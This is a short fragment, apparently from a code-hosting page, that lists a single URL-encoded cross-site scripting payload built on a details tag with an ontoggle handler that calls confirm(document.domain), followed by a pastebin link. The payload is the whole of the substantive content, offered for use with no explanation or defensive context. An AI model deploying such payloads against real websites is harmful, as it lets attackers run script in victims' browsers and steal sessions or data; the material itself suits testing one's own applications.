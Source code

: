 
Payloads:
<details++on+/ontoggle%3d1%5econfirm(document.domain)+open//


https://pastebin.com/4zADMK1u

